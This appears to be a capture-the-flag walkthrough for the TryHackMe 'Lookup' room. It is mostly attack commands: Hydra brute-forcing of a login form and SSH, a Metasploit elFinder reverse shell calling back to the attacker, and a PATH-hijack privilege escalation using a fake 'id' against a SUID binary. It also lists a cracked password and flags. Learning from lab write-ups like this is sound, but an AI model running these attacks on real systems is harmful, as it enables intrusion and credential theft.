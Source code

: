 # 🔥 TryHackMe Walkthrough - Lookup

## 🚀 Enumeration

### 📂 1. Directory Bruteforcing (Gobuster)
```sh
../login.php
```

### 👥 2. User Enumeration (Custom Script)
```sh
python3 lookup-enumeration.py
```

## 🔑 Credential Attacks

### 🔓 3. Password Bruteforcing (Hydra)
```sh
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong" -v
```
```sh
hydra -l <username> -P <password-list> <target-IP> -t <threads> <protocol>
```
#### 📌 Parameters Explained:
- `-l <username>` → Specify a single username.
- `-L <username-list>` → Use a list of usernames.
- `-p <password>` → Try a single password.
- `-P <password-list>` → Use a wordlist of passwords.
- `<target-IP>` → IP or domain of the target.
- `-t <threads>` → Number of threads (default is 16).
- `<protocol>` → Service to attack (e.g., ssh, ftp, http, etc.).

## 🌐 Subdomain Enumeration

### 📌 4. Add the new subdomain
```sh
echo "<target-IP> files.lookup.thm" >> /etc/hosts
```

## 🐚 Reverse Shell

### 🛠 5. Exploit with Metasploit
```sh
search elfinder 
set RHOST files.lookup.thm
set LHOST tun0
run
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'  # Upgrade to interactive shell
```

## 🔍 Privilege Escalation

### 🔎 6. Finding Interesting Files
```sh
ls -la /home
```
#### 📌 Observations:
- Found `.passwords` and `user.txt`, but need root privilege to access them.

### 🔥 7. Finding SUID Binaries
```sh
find / -perm /4000 2>/dev/null
```
#### 📌 Breakdown:
- `find /` → Search from root.
- `-perm /4000` → Find SUID binaries.
- `2>/dev/null` → Suppress permission errors.

### 🛠 8. Checking `/usr/sbin/pwm`
```sh
ls -la /usr/sbin/pwm
```
#### 📌 Output:
```sh
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```
✅ It has root privileges!

### 🏆 9. Exploiting `pwm`
```sh
www-data@lookup:/tmp$ pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
```sh
id
```
#### 📌 Output:
```sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 🔄 10. Manipulating `id` Command
```sh
touch /tmp/id  # Create an empty file
```
```sh
echo '#!/bin/bash' > /tmp/id  # Add shebang
```
```sh
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> /tmp/id  # Fake ID
```
```sh
chmod +x /tmp/id  # Make it executable
```
```sh
export PATH=/tmp:$PATH  # Prioritize our fake 'id'
```
#### ✅ Now when we type:
```sh
id
```
#### 📌 Output:
```sh
uid=1000(think) gid=1000(think) groups=1000(think)
```

### 🔑 11. Running `pwm` Again
```sh
pwm
```
✅ We now have `.passwords` file!

## 🔐 SSH Bruteforcing

### 💥 12. Using Hydra for SSH Login
```sh
hydra -l think -P passwords.txt ssh://lookup.thm
```
#### 📌 Output:
```sh
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
```

## 🎯 Capture the Flags

### 🏆 13. User Flag
```sh
cat user.txt
```
#### 📌 Output:
```sh
38375fb4dd8baa2b2039ac03d92b820e
```

### 🏅 14. Root Flag
```sh
su -
```
🔑 Password: `josemario.AKA(think)`
```sh
cat /root/root.txt
```
#### 📌 Output:
```sh
5a285a9f257e45c68bb6c9f9f57d18e8
```

🎉 **Congratulations! You have completed the room!** 🎉

---
📌 **Created by c1ph3r1337** 🕶️🔥

